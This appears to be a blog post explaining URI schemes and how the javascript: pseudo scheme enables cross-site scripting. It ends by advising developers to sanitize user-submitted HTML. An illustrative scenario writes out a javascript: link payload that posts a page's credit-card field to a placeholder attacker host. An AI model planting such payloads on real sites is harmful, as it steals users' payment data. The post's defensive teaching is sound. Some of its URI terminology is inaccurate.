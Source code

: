 ```yaml
---
layout: post
title: Sanitize JavaScript Scheme to Prevent XSS
---
```


Outside of the most commonly known and supported URI schemes (http:// and https://), most modern web browsers support a full roster of alternate and legacy URI schemes.

Here are some alternate URI schemes you may be familiar with already:

 - ftp://
 - mailto:
 - file://

And a few you probably haven't put much thought into, or didn't know existed:

 - javascript:
 - gopher://
 - news:
 - wais://
 - nntp://

URI schemes are the combination of a few separate parts, designed by third parties and adopted into major web browsers. All URI schemes have the following structure:

`and://my:stuff@test.com:8080/location/sublocation?key=things&stuff=keys#section2`

Lets break this down into separate pieces before discussing where protocols can be a security issue.

`and://` - This is where the scheme is declared, and the browser first checks this in order to determine what to do with the following strings.

`my:stuff` - This is the "path" often used to express a hierarchy of data. You don't see this in very many URI's, but in older systems a scheme might declare username and password for an email as `joe:mypassword3`.

`@test.com` - Is the host, you see this most frequently in http:// and https:// URI's. This is used to identify a relevant location.

`:8080` - Here we declare the port. All websites and servers require a port to be declared, but you don't see it often in http:// or https:// URI's because browsers default to port 80 (invisibly) if no other port is declared in the URI.

`location/sublocation` - Refers to a file location on the host.

`?key=things&things=keys` - The query, used to pass through conditional data in the URI as if it was a variable.

`#section` - The URI fragment, also used to pass through conditional data. Typically used to preserve state on the client.

Why do we need to worry about URI Schemes?
------------------------------------------

As you probably have guessed, the URI scheme is so flexible that many companies have taken advantage of it to produce their own schemes which have than been adopted into web browsers. Many of these schemes are still supported for legacy reasons, but have not been updated in years or even decades.

The most notorious of this, is the "**JavaScript Pseudo Scheme**" - a scheme that allows you to pass through a string of JavaScript which will be executed in it's own context but with full access to the current DOM and all of it's nodes.

You've probably seen this in code before, but not recognized it. The most common use case is:

`<a href="javascript:void(0);">click me</a>`

This trick has been used to create links that did not adhere to normal link behavior in many browsers. Really what's happening is the link is executing the statement `void(0);` which returns `undefined`. Typically a browser will reload the page if a link to itself is clicked, but if the link returns undefined the browser will halt execution. Now you have a link to the current page which can call other JavaScript without causing a page reload.

This use case is generally harmless.

Now lets consider another use case, which you can imagine is usable on many insecure websites and apps. Since you have access to arbitrary JavaScript code execution, you can traverse the DOM tree and collect whatever data you desire. 

Consider the following scenario:


----------

Jon is a hacker who is targeting a popular eCommerce site called BuyStuffNow.

BuyStuffNow is like Amazon, except it allows you to buy from one product page without ever leaving (lots of apps do this). The order process goes like this: click a product -> type in credit card -> click purchase to complete transaction.

Below the product is a comments section, where guests can comment on the item and give reviews / warnings to each other. 

Jon devises a plan to craft a malicious link to put in his BuyStuffNow comment. He writes a legitimate review, with a legitimate link:

"Hi friends. IF YOU ARE GOING TO BUY THIS PLEASE READ THIS REVIEW FIRST. I used the product for three hours, than **this** happened."

The link will be constructed as such:

`<a href="javascript:console.log($.ajax({type: 'POST', context: this, url: 'http://www.badwebsite.com', data: {
cardNumber: document.querySelector('#creditCardNumber')},
dataType: 'text',
success: function(resultData) { window.location.open('http://www.legitreview.com/product'); }})
)">this</a>`

To a uneducated user, this is simply a link to a legitimate review on another website. The user may enter their credit card information and than decide to read the review - in which case their credit card information is sent to a malicious web server and stored for malicious uses.

----------

Because the JavaScript pseudo scheme allows arbitrary JavaScript execution with full access to current DOM nodes, any sensitive data on the page can be recorded and sent elsewhere. This is only one possible scenario where the JavaScript pseudo scheme can present an issue. It could also be used for injecting an entire page of scripts into the current tree or replacing the current DOM with an iframe.

In order to prevent this, we need to ensure wherever user submitted HTML is rendered we are sanitizing or purifying the input. Remove any instances of the JavaScript pseudo scheme so they don't have any capacity for creating malicious links or executing malicious JavaScript. Alternatively, create your own markup language or use an existing one like markdown to better ensure your user's security.
